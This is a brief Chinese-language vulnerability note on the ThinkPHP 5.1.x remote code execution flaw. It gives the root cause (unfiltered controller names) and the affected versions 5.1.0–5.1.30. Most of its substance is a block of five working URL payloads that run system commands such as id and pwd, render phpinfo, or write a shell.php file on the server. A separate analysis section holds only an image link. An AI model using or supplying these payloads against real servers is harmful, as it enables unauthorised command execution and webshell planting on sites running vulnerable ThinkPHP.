 ```yaml
---
type: sec-note
title: thinkphp 5.1.x RCE
tags:
  - php
  - thinkphp
  - 漏洞分析
---
```

# thinkphp 5.1.x RCE

## 参考文章

[https://xz.aliyun.com/t/9369](https://xz.aliyun.com/t/9369)

## RCE1

### 根本原因

thinkphp没有对用户传入的操作器名称进行过滤,导致可以调用顶部类中的方法,造成一系列的危害

### 影响版本

TP5.1.0-5.1.30

### payload

 ```PHP
 ?s=index/\think\Request/input&filter[]=system&data=pwd
 ?s=index/\think\view\driver\Php/display&content=<?php phpinfo();?>#注意由于windows不区分大小写的原因所以这个payload在windows下无法使用
 ?s=index/\think\template\driver\file/write&cacheFile=shell.php&content=<?php phpinfo();?>
 ?s=index/\think\Container/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id
 ?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id
 ```


### 分析
![](/attachment/images/thinkphp5.1_rce.png)